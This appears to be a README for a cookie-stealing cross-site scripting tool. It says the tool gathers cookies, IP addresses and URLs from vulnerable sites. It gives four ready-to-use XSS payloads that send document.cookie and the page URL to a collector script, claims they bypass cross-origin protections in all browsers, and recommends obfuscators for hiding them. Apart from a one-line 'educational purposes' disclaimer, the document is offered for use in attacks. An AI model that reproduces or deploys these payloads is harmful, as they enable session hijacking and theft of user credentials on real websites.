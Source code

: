 <h2>For educational purposes only, use at your own responsibility.</h2>

<p>This script gets  all cookies, ip address and url from vulnerable site and stores it in data.txt.</p>

<p>Here same payload examples for usage.</p>

    <sCRiPt>new Image().src=`https://localhost/getCookies.php?u=${document.location.href}&c=${document.cookie}`;</sCRiPt>

    <svgonload=setTimeout(function(a){a=document.createElement(`img`);a.src=`https://localhost/getCookies.php?       u=${document.location.href}&c=${document.cookie}`;document.getElementsByTagName(`body`)[0].appendChild(a);},500);>

    <video autoplay onloadstart="new Image().src=`https://localhost/getCookies.php?u=${document.location.href}&c=${document.cookie}`;" src=x></video>

    <sCRiPt>new Image().src="https://localhost/getCookies.php?u="+document.location.href+"&c="+document.cookie;</sCRiPt>

<p>These examples in above is written for bypassing cross site origin policy in all browsers but you can use your own payload instead.</p>
<p>For encrypting your payload:</p>
<a href="https://obfuscator.io/">obfuscator.io</a></br>
<a href="http://www.jsfuck.com/">jsfuck.com</a>
</br></br>
From: <a href="https://cyberzone.az/">CyberZone.az</a>
